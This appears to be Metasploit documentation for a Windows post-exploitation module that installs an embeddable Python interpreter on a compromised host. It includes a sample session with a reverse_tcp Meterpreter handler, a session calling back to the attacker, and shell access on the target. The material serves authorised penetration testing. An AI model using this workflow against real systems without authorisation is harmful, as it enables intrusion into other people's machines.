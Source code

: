 ## Overview

This module downloads an embeddable Python3 distribution onto the target
file system, granting pentesters access to a lightweight Python
interpreter. This module does not require administrative privileges or
user interaction with installation prompts.
This is useful in cases where the in-memory python interpreter might
be limited.  If you only want to run a python script while connected,
see https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/python-extension.html.

## Tested Version
This module has been tested against:

1. Windows 10, 1903

## Verification Steps

  1. Start msfconsole
  2. Get a Meterpreter session
  3. Do: `use post/windows/manage/install_python`
  4. Do: `set SESSION #`
  5. Optional Do: `set PYTHON_VERSION`
  6. Optional Do: `set PYTHON_URL`
  7. Optional Do: `set FILE_PATH`
  8. Do: `run`


## Options
  **PYTHON_VERSION**

  Specifies the Python version you would like to download. Downloads Python version 3.8.2 by default.

  **PYTHON_URL**

  Specifies the URL used to download the Python embeddable zip file.

  **FILE_PATH**

  Specifies the directory to place the Python embeddable zip file.
  Places Python zip file in the current working directory by default.

  **CLEANUP**

  If true, this option will delete the Python zip file as well as its extracted contents. It will also terminate running processes with name 'python', as you cannot delete the Python interpreter if it is actively running.

## Scenarios

Get initial access: Create a Meterpreter exe using msfvenom, then transfer it to the target system via web server, SMB, etc. Execute the payload to get a session.

    msf5 > handler -H 0.0.0.0 -P 4444 -p windows/meterpreter/reverse_tcp
    [*] Payload handler running as background job 0.

    [*] Started reverse TCP handler on 0.0.0.0:4444
    msf5 >
    [*] Sending stage (180291 bytes) to 192.168.13.129
    [*] Meterpreter session 1 opened (192.168.13.130:4444 -> 192.168.13.129:50069) at 2020-03-04 20:32:59 -0500

Use the post module to install Python on the target filesystem

    msf5 > use post/windows/manage/install_python
    msf5 post(windows/manage/install_python) > set SESSION 1
    SESSION => 1
    msf5 post(windows/manage/install_python) > exploit

    [*] Downloading Python embeddable zip from https://www.python.org/ftp/python/3.8.2/python-3.8.2-embed-win32.zip
    [+] Compressed size: 1112
    [*] Extracting Python zip file: .\python-3.8.2-embed-win32.zip
    [+] Compressed size: 952
    [*] Ready to execute Python; spawn a command shell and enter:
    [+] .\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    [!] Avoid using this python.exe interactively, as it will likely hang your terminal; use script files or 1 liners instead
    [*] Post module execution completed

Verify Python works

    msf5 post(windows/manage/install_python) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > shell
    Process 2688 created.
    Channel 5 created.
    Microsoft Windows [Version 10.0.17763.1039]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Users\buddha\AppData\Local\Temp>.\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    .\python-3.8.2-embed-win32\python.exe -c "print('Hello, world!')"
    Hello, world!

Note that running this Python interpreter interactively may hang your command shell.
